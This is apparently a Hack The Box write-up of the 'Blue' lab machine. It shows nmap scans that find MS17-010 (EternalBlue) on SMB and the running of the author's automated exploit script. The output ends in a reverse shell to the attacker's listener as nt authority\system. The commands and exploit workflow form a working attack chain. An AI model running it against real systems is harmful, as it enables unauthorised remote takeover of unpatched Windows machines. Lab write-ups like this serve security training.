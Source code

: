 ```yaml
---
title: HTB - Blue
description: ""
date: 2024-08-20 06:25:00 -0600
categories:
  - writeups
  - hackthebox
  
tags:
  - writeup
  - eternal_blue
  - eccptv2
    - hackthebox
---
```

## Enumeration

Start with an nmap scan that will output every open port in grep format to the archive allPorts
```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.40 -vvv -oG allPorts
```

After doing that I use a function named xps to extract the ports and run a command that will enumerate all the versions and scripts of each port 

```bash
$ xps allPorts
[+] command copied to clipboard, run:
sudo nmap -sVC -p135,139,445,49152,49153,49154,49155,49156,49157 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

I modified the output to only scan those related to smb and enumerate the scripts with "vuln and safe" categories

```bash
$ sudo nmap -sVC --script="vuln and safe" -p135,139,445 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

The scan shows that the machine is vulnerable to eternal-blue ms17-010

```java
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## shell as nt authority/system
To exploit this vulnerability I use a bash script I made that will automate all the process [bluepwn-ms17-010](https://github.com/sentreysec/bluepwn-ms17-010)

```bash
$ git clone https://github.com/sentreysec/bluepwn-ms17-010
$ cd bluepwn-ms17-010
$ ./bluepwn.sh
```

the process is the following first I retrieve the information of the target with the objective to know its architecture, in this case I have a x64 windows 7 machine  

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 1
[?] IP of the target: 10.10.10.40
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
[?] Would you like to go back?
[Y/n] y
```

Then I run the exploit setting up the correct parameters such as ip address port and architecture

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 2
[?] Target IP: 10.10.10.40
[?] Your IP: 10.10.14.13
[?] Your Port: 9001
[?] Architecture of the host
	[1] x86
	[2] x64
[>] 2
```

The tool automatically retries the exploit in order to make it work, finally after some retries it spawns a shell as nt authority\system

```bash
[!] Retrying...
If the issue persists is probably that the target machine got rebooted
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

